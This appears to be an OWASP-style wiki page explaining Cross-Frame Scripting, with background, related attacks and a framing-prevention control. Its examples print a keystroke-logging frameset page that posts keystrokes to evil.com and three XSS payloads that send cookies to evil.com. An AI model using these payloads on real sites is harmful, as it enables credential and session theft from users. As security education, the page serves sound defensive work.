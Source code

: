 ```yaml
---

layout: col-sidebar
title: Cross Frame Scripting
author: 
contributors: 
permalink: /attacks/Cross_Frame_Scripting
tags: attack, Cross Frame Scripting
auto-migrated: 1

---
```


{% include writers.html %}

## Description

Cross-Frame Scripting (XFS) is an attack that combines malicious
JavaScript with an iframe that loads a legitimate page in an effort to
steal data from an unsuspecting user. This attack is usually only
successful when combined with social engineering. An example would
consist of an attacker convincing the user to navigate to a web page the
attacker controls. The attacker's page then loads malicious JavaScript
and an HTML iframe pointing to a legitimate site. Once the user enters
credentials into the legitimate site within the iframe, the malicious
JavaScript steals the keystrokes.

## Risk Factors

The standard browser security model allows JavaScript from one web page
to access the content of other pages that have been loaded in different
browser windows or frames as long as those other pages have been loaded
from the same-origin server or domain. It does not allow access to pages
that have been loaded from different servers or domains (see MSDN
article [About Cross-Frame Scripting and
Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)).
However, specific bugs in this security model exist in specific
browsers, allowing an attacker to access some data in pages loaded from
different servers or domains. The most well-known such bug affects IE,
which leaks keyboard events across HTML framesets (see iDefense Labs
advisory [Microsoft Internet Explorer Cross Frame Scripting Restriction
Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)).
This bug could allow, for example, an attacker to steal the login
credentials of a browser user as they try to type them into the
login form of a third-party web page.

## Examples

### XFS Attack Against IE

To exploit the IE bug which leaks keyboard events across framesets, an
attacker may create a web page at evil.com, which the attacker controls,
and include on the evil.com page a visible frame displaying the login
page for example.com. The attacker can hide the frame's borders and
expand the frame to cover the entire page, so that it looks to the
browser user like they are actually visiting example.com The
attacker registers some javascript in the main evil.com page which
listens for all key events on the page. Normally, this listener would be
notified of events only from the main evil.com page -- but because of
the browser bug, this listener is notified also of events from the
framed example.com page. So every key press the browser user makes in
the example.com frame, while trying to log into example.com, can be
captured by the attacker, and reported back to evil.com:

    <!-- http://evil.com/example.com-login.html -->
    <head>
    <script>
    // array of user keystrokes
    var keystrokes = [];
    // event listener which captures user keystrokes
    document.onkeypress = function() {
        keystrokes.push(window.event.keyCode);
    }
    // function which reports keytrokes back to evil.com every second
    setInterval(function() {
        if (keystrokes.length) {
            var xhr = newXHR();
            xhr.open("POST", "http://evil.com/k");
            xhr.send(keystrokes.join("+"));
        }
        keystrokes = [];
    }, 1000);
    // function which creates an ajax request object
    function newXHR() {
        if (window.XMLHttpRequest)
            return new XMLHttpRequest();
        return new ActiveXObject("MSXML2.XMLHTTP.3.0");
    }
    </script>
    </head>
    <!-- re-focusing to this frameset tricks browser into leaking events -->
    <frameset onload="this.focus()" onblur="this.focus()">
    <!-- frame which embeds example.com login page -->
    <frame src="http://example.com/login.html">
    </frameset>

### XSS Attack Using Frames

To exploit a [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") on a third-party web page at
example.com, the attacker could create a web page at evil.com, which the
attacker controls, and include a hidden iframe in the evil.com page. The
iframe loads the flawed example.com page, and injects some script into
it through the XSS flaw. In this example, the example.com page prints
the value of the "q" query parameter from the page's URL in the page's
content without escaping the value. This allows the attacker to inject
some javascript into the example.com page which steals the
browser-user's example.com cookie, and sends the cookie via a fake-image
request to evil.com (the iframe's src URL is wrapped for legibility):

    <iframe style="position:absolute;top:-9999px" src="http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>

The iframe is hidden off-screen, so the browser user won't have any idea
that they just "visited" the example.com page. However, this attack
is effectively the same as a conventional XSS attack, since the attacker
could have simply redirected the user directly to the example.com page,
using a variety of methods, including a meta element like this (again,
the meta element's URL is wrapped for legibility):

    <meta http-eqiv="refresh" content="1;url=http://example.com/↵
        flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">')</script>">

The only difference is that when using an iframe, the attacker can hide
the frame off-screen -- so the browser user won't have any idea that they
just "visited" example.com. When using a redirect to navigate
directly to example.com, the browser will display the example.com url in
the browser's address bar, and the example.com page in the browser's
window, so the browser user will be aware that they are visiting
example.com.

### Another XSS Attack Using Frames

To exploit the same [Cross Site Scripting
Flaw](Cross_Site_Scripting_Flaw "wikilink") as above at example.com
(which prints the value of the "q" query parameter from the page's URL
in the page's content without escaping the value) the attacker could
create a web page at evil.com, which the attacker controls, that
includes a link like the following, and induce the user to click on the
link. This link injects an iframe into the example.com page by
exploiting the XSS flaw with the "q" query parameter; the iframe runs
some javascript to steal the browser-user's example.com cookie, and
sends it via a fake-image request to evil.com (the URL is wrapped for
legibility):

    http://example.com/flawed-page.html?=<iframe src="↵
        javascript:document.body.innerHTML=+'<img src=\"http://evil.com/↵
        ?c='+encodeURIComponent(document.cookie)+'\">'"></iframe>

Again, this attack is effectively the same as a conventional XSS attack;
the attacker simply uses the src attribute of the injected iframe
element as a vehicle to run some javascript code in the attacked page.

## Related Threat Agents

  - An XFS attack generally is carried out by a malicious
    [:Category:Internet
    attacker](:Category:Internet_attacker "wikilink").
  - An XFS attack exploiting a browser bug which leaks events across
    frames is similar to an attack which uses conventional key-logging
    software.

## Related Attacks

  - An attacker might use a hidden frame to carry out a [Cross-site
    Scripting (XSS)](xss) attack.
  - An attacker might use a hidden frame to carry out a [Cross-Site
    Request Forgery
    (CSRF)](Cross-Site_Request_Forgery_\(CSRF\) "wikilink") attack.
  - An attacker might use a visible frame to carry out a
    [Clickjacking](Clickjacking "wikilink") attack.
  - An XFS attack exploiting a browser bug which leaks events across
    frames is a form of a [Phishing](Phishing "wikilink") attack (the
    attacker lures the user into typing-in sensitive information into a
    frame containing a legitimate third-party page).

## Related Vulnerabilities

  - XFS attacks exploit specific browser bugs.

## Related Controls

  - XFS attacks may denied by preventing the third-party web page from
    being framed; the techniques used to do this are the same as those
    used for [Clickjacking Protection for Java
    EE](Clickjacking_Protection_for_Java_EE "wikilink").

## References

  - MSDN article [About Cross-Frame Scripting and
    Security](http://msdn.microsoft.com/en-us/library/ms533028%28VS.85%29.aspx)
  - iDefense Labs advisory [Microsoft Internet Explorer Cross Frame
    Scripting Restriction
    Bypass](http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=77)
